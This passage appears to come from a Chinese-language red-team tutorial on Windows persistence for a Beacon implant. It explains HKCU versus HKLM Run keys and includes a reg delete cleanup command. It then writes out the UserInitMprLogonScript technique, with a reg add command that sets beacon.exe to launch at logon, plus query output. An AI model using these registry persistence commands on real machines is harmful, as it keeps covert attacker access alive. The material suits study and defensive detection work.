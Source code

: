 注销、重启登录，上线中完整性级别 Beacon。

HKLM 和 HKCU 有什么区别？HKCU 是当前用户启动项，HKLM 就是当前机器的启动项，当前任何用户登录机器后都会自动启动 Beacon。但操作 HKLM 需要高完整性级别。尝试使用 root 登录，没有执行 beacon.exe。

清除注册表启动项。

```plaintext
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /f
```

#### 2.3.2 Logon Script

使用普通用户权限，对用户坏境变量注册表 HKCU\\Environment 项，创建字符串 UserInitMprLogonScript，值为 bat 批处理脚本或可执行文件绝对路径。

```plaintext
PS C:\Users\123> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\Users\123\AppData\Roaming\beacon.exe"
PS C:\Users\123> reg query HKCU\Environment /v UserInitMprLogonScript

HKEY_CURRENT_USER\Environment
    UserInitMprLogonScript    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

登陆时执行会自动执行上线，得到中完整性 Beacon。

刚开始 beacon.exe 还是由父进程 userinit.exe 启动。

![Logon Script 进程运行状态 -1.png](assets/1708583418-10d11ee0f836544dcfd8369af7bd73a8.png)

等待一会儿 userinit.exe 自动退出，beacon.exe 父进程消失，很是奇怪。

![Logon Script 进程运行状态 -2.png](assets/1708583418-4d51aa8a243b8f1a2c2b95948f35d960.png)
